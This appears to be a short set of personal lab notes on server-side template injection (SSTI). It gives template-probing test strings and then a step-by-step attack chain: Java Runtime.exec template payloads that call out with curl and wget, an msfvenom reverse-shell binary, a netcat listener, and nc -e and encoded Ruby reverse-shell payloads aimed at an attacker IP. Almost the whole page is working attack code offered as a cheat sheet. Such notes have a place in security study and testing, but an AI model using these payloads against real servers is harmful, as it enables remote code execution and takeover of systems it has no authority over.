 # Server-Side Template Injection - SSTI

[Back to Table of Contents](../cysec)
---
[Payload Box - SSTI](https://github.com/payloadbox/ssti-payloads)
---
## Notes from SSTI Labs

### Common test-cases:

````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````

Example attack overview:

1.  Start local server.

````
python3 -m http.server 80
````
2. Test functionality of python server remotely using JS and curl.
````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://ip")}

````
3. Create reverse shell payload and initialize a netcat listener for it.

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=5010 -f elf > r.elf

nc -lvnp 443

````
4. Perform the SSTI, getting RCE on the server.

````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh ip 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22IP%22%2C5007%29%29%27")%>

````
Tools:

````
- sstimap

````


